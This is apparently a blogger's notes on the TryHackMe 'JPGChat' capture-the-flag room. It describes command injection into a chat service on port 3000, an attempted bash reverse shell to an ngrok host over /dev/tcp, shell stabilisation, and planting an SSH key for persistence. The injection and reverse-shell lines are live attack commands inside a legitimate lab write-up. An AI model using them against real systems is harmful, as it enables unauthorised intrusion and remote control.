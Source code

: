 **JPGChat**

This is not a full writeup for this room, this is just my notes about it because I had multiple problems when tried to get the revshell

After doing the NMAP on the machine and found `ssh` open and a custom port of `3000` open, I tried to netcat to port `3000`, I've written `[REPORT]` and added my payload `am'; /bin/bash; #` why `/bin/bash` not revshell? that what I was struggling with, I have no idea why but I was not able to do any kind of connection to my tunnel (ngrok)

I've setup my ngrok using `ngrok tcp 5000` and open my netcat like this `nc -lnvp 5000` and sent my revshell payload like this `am;bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14411 0>&1;` and nope.. nothing appeard, this was 1 failure out of 20+ failures using many kind of revshell payloads, then I found this [writeup](https://www.aldeid.com/wiki/TryHackMe-JPGChat) which gave me the idea of spawning a local bash using just `/bin/bash` instead of my revshell payload

Then i stabiliezed my bash a little using `python3 -c "import pty; pty.spawn('/bin/bash')"` then added my ssh keys to get a proper shell using ssh as follows:

- Generated my ssh rsa keys using `ssh-keygen -t rsa` saved it on default path and put my passphrase
- Copy the output found in `~/.ssh/id_rsa.pub` and put it on the vuln machine using the following
    - ![c21fa25eb5d2ccd0153e5bc4310a5f2a.png](c21fa25eb5d2ccd0153e5bc4310a5f2a.png)
    - Due to unstable shell we have to use a tricky way to pipeline our input, once I pasted my rsa key git Enter then type `EOF` to stop the file inputing

- Now connect using ssh `ssh -vvv wes@XXXXX` the `-vvv` for verbosity to know what's going on under the hood
- Aaaaand connected ![912473317bff44200af01f781a500ee3.png](912473317bff44200af01f781a500ee3.png)


 Now let's do the **Privilege Escalation**

- Once again we can't connect to my netcat .…
- ![3e362d7500bee8bcb47e5546bcd516cd.png](3e362d7500bee8bcb47e5546bcd516cd.png)
- Sooo, we use do it on the machine's local 
- ![dd2f718c0a906d060793a2f2826eee7f.png](dd2f718c0a906d060793a2f2826eee7f.png "dd2f718c0a906d060793a2f2826eee7f.png")

Still got no idea why this happened, was it from me? from the machine? I have no idea yet.. it's not the first time I create revshells/RCE using this technique but this time no worky no worky :\

You can contact me using my social media/discord accounts on my Github account if you have any idea why this happened :)

Discord: `AyhamAlali#0001`
